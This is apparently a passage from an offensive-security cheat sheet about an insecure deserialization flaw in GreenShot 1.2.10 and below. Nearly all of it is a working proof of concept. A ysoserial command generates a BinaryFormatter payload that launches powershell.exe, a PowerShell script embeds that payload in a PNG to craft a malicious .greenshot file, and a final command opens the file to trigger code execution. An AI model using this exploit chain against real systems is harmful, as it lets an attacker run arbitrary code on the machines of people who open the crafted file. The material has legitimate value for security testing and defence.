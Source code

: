	- Living Off The Land Applications
	- GreenShot 1.2.10 and below is vulnerable to an insecure object deserialization
	- double-click on a *.greenshot file will lead to arbitrary code execution

### Generate Payload using Ysoserial
```ps1
./ysoserial.exe -f BinaryFormatter -g WindowsIdentity  -c "powershell.exe" --outputpath payload.bin -o raw
```

### Create a png file with some text
```
$payload = Get-Content .\payload.bin -Encoding Byte
$length = $payload.Length
Add-Type -AssemblyName System.Drawing
$bmp = new-object System.Drawing.Bitmap 250,61
$font = new-object System.Drawing.Font Consolas,24
$brushBg = [System.Drawing.Brushes]::Green
$brushFg = [System.Drawing.Brushes]::Black
$graphics = [System.Drawing.Graphics]::FromImage($bmp)
$graphics.FillRectangle($brushBg,0,0,$bmp.Width,$bmp.Height)
$graphics.DrawString('PoC Command Execution',$font,$brushFg,10,10)
$graphics.Dispose()
$bmp.Save($filename)
$payload | Add-Content -Path $filename -Encoding Byte -NoNewline
[System.BitConverter]::GetBytes([long]$length) | Add-Content -Path $filename -Encoding Byte -NoNewline
"Greenshot01.02" | Add-Content -path $filename -NoNewline -Encoding Ascii
```

### Launch greenshot
```
Invoke-Item $filename
```